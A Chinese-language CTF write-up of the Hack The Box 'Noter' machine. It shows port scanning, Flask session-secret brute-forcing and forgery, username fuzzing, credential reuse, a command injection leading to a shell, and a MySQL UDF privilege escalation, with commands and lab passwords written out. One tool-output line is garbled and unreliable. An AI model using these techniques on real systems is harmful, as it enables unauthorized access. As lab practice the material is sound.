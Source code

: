 ```yaml
---
title: htb noter
copyright: true
date: 2022-05-11 15:51:55
tags: 靶机渗透
---
```

htb不允许公开active靶机的wp，这里只是自己记录下渗透过程。
<!--more-->
难度：medium  

**1.端口扫描**  
nmap -sVC -A --min-rate 5000 10.129.171.250 > port.txt  
21 22 5000端口开放  

**2.web**  
5000端口是个flask应用，熟悉的味道，熟悉的配方，flask基本上就考虑jinja2 ssti和secret_key伪造了  
{%asset_img 1.png %}  
注册一个普通用户，在添加笔记功能发现了一个xss  
{%asset_img 2.png %}
{%asset_img 3.png %}
在这里尝试了很久才基本确定这个xss没有利用价值  
尝试leak secret_key失败，尝试爆破session  
```
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.YnpVIQ.4XYlyJbVnl7qlkIJENKNrgDSkVI" < /usr/local/lib/python3.9/dist-packages/flask_unsign_wordlist-2022.19-py3.9.egg/flask_unsign_wordlist/wordlists/all.txt
```
```
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2688): -----BEGIN PRIVATE KEY-----DEF
[+] Found secret key after 16640 attempts32.com/v1/pe
'secret123'
```
使用伪造的admin session登录失败，应该没有admin这个用户，关注到登录时用户名存在与否的显示不同。  
{%asset_img 4.png %}  
{%asset_img 5.png %}  
fuzz有效用户名  
```
wfuzz -t 5 --ss "Invalid login" -d 'username=FUZZ&password=1' -w /root/桌面/tools/字典/SecLists-master/Usernames/cirt-default-usernames.txt http://10.129.173.40:5000/login
```
{%asset_img 6.png %}  
其中test是我测试时创建的用户，伪造TEST 和blue的session试试，发现blue是vip用户  
```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret "secret123"

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YnqLdQ.XgF7a8l7SFd4HdntVKE-0YHGdeE
```
{%asset_img 7.png %}  
在blue的笔记中发现了ftp服务的一个用户名密码blue  blue@Noter!和管理员用户名ftp_admin  
{%asset_img 8.png %}  
使用blue登入ftp服务器，发现了一个密码策略pdf，知道了默认密码为username@site_name!  
{%asset_img 9.png %}  
使用ftp_admin  ftp_admin@Noter!   登入ftp，获取两个版本的flask源码，通过beyondcompare辅助审计代码，发现mysql root用户名密码（后边要用）和一个命令注入点：  
这里的r.text.strip()可控，使用;可以在shell里执行多条命令  
{%asset_img 10.png %}  
kali上构造一个md文件，本地监听+远程导出一下，getshell  
{%asset_img 11.png %}  
{%asset_img 12.png %}  
{%asset_img 13.png %}  
cat /home/svc/user.txt  

**3.提权**
上传pspy64看下进程，没什么可疑的，跑下linpeas，尝试了一番也没啥结果，这时想起了mysql用户名密码，udf一下。  
这里刚开始犯蠢了，直奔插件目录/usr/lib/x86_64-linux-gnu/mariadb19/plugin/ 想上传udf可执行程序，发现没有权限，想了一段时间，后来发现直接用mysql root用户往该目录里二进制dump即可。  

```
python linux32udf.py --username root --password Nildogg36
./sh -p
```
获取root权限  
cat /root/root.txt  
